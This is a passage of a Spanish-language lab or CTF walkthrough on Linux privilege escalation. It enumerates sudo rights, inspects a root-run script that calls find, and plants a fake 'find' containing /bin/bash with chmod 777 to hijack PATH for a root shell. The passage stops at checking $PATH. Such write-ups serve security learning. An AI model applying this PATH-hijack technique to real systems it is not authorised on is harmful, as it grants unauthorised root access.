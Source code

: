 
- Enumeramos archivos vulnerables con **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20252.png)
    

- Es un archivo con extensión **.sh**. Miramos lo que contiene
    
    `cat /opt/porno/watchporn.sh`
    
    ![image.png](./imagenes/image%20253.png)
    
    Vemos que llama al comando **find.** Vamos a intentar aprovecharnos de ello creando un archivo find y que ejecute el nuestro en vez del original.
    
- Nos movemos al directorio **/opt/porno/**
    
    `cd /opt/porno/`
    
- Creamos un archivo find falso y le damos todos los permisos
    
    `echo "/bin/bash" > find`
    
    ![image.png](./imagenes/image%20254.png)
    
    Al ejecutarse como root la línea **/bin/bash** nos dará una sesión de interprete de comando Bash como root.
    
    `chmod 777 find`
    
- Miramos el Path en que se ejecuta el archivo
    
    `echo $PATH`
    
    ![image.png](./imagenes/image%20255.png)
    